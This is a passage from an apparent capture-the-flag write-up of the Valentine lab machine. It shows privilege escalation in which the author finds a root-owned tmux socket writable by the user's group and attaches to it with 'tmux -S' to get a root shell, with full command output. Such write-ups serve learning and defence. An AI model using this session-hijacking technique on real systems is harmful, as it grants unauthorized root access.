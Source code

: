 Now let's find a way to escalate to root. 

{% highlight bash %}
hype@Valentine:~$ cd /
hype@Valentine:/$ ls -la
total 108
drwxr-xr-x  26 root root  4096 Feb  6 11:56 .
drwxr-xr-x  26 root root  4096 Feb  6 11:56 ..
drwxr-xr-x   2 root root  4096 Dec 11  2017 bin
drwxr-xr-x   3 root root  4096 Feb 16 14:41 boot
drwxr-xr-x   2 root root  4096 Dec 11  2017 cdrom
drwxr-xr-x  13 root root  4060 Jul  9 11:21 dev
drwxr-xr-x   2 root root  4096 Dec 13  2017 devs
drwxr-xr-x   2 root hype  4096 Jul  9 11:21 .devs
drwxr-xr-x 132 root root 12288 Jul  9 11:21 etc
drwxr-xr-x   3 root root  4096 Dec 11  2017 home
lrwxrwxrwx   1 root root    32 Dec 11  2017 initrd.img -> boot/initrd.img-3.2.0-23-generic
drwxr-xr-x  21 root root  4096 Dec 11  2017 lib
drwxr-xr-x   2 root root  4096 Apr 25  2012 lib64
drwx------   2 root root 16384 Dec 11  2017 lost+found
drwxr-xr-x   3 root root  4096 Apr 25  2012 media
drwxr-xr-x   3 root root  4096 Dec 11  2017 mnt
drwx------   2 root root  4096 Dec 13  2017 opt
dr-xr-xr-x 104 root root     0 Jul  9 11:21 proc
drwx------   4 root root  4096 Feb  6 12:00 root
drwxr-xr-x  20 root root   740 Jul  9 11:26 run
drwxr-xr-x   2 root root  4096 Feb 16 14:40 sbin
drwxr-xr-x   2 root root  4096 Mar  5  2012 selinux
drwxr-xr-x   2 root root  4096 Apr 25  2012 srv
drwxr-xr-x  13 root root     0 Jul  9 11:21 sys
drwxrwxrwt   5 root root  4096 Jul  9 11:30 tmp
drwxr-xr-x  10 root root  4096 Apr 25  2012 usr
drwxr-xr-x  14 root root  4096 Feb  6 12:01 var
lrwxrwxrwx   1 root root    29 Dec 11  2017 vmlinuz -> boot/vmlinuz-3.2.0-23-generic
hype@Valentine:/$ cd .devs
hype@Valentine:/.devs$ ls -la
total 8
drwxr-xr-x  2 root hype 4096 Jul  9 11:21 .
drwxr-xr-x 26 root root 4096 Feb  6 11:56 ..
srw-rw----  1 root hype    0 Jul  9 11:21 dev_sess
hype@Valentine:/.devs$ file dev_sess 
dev_sess: socket
{% endhighlight %}

We have a `dev_sess` socket, with `root` owner, but `group` is `hype`. That means we can connect it, as we're in the same group. Let's try it with `tmux` command (you can find it also while checking out bash history). 

{% highlight bash %}
hype@Valentine:/.devs$ tmux -S /.devs/dev_sess

total 8
drwxr-xr-x  2 root hype 4096 Jul  9 11:21 .
drwxr-xr-x 26 root root 4096 Feb  6 11:56 ..
srwxrwx---  1 root hype    0 Jul  9 11:21 dev_sess
root@Valentine:/.devs# cd /root/
root@Valentine:~# ls -la
total 52
drwx------  4 root root 4096 Feb  6 12:00 .
drwxr-xr-x 26 root root 4096 Feb  6 11:56 ..
-rw-------  1 root root  263 Feb 16 14:42 .bash_history
-rw-r--r--  1 root root 3108 Dec 13  2017 .bashrc
drwx------  2 root root 4096 Feb  6 12:00 .cache
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
drwx------  2 root root 4096 Dec 13  2017 .pulse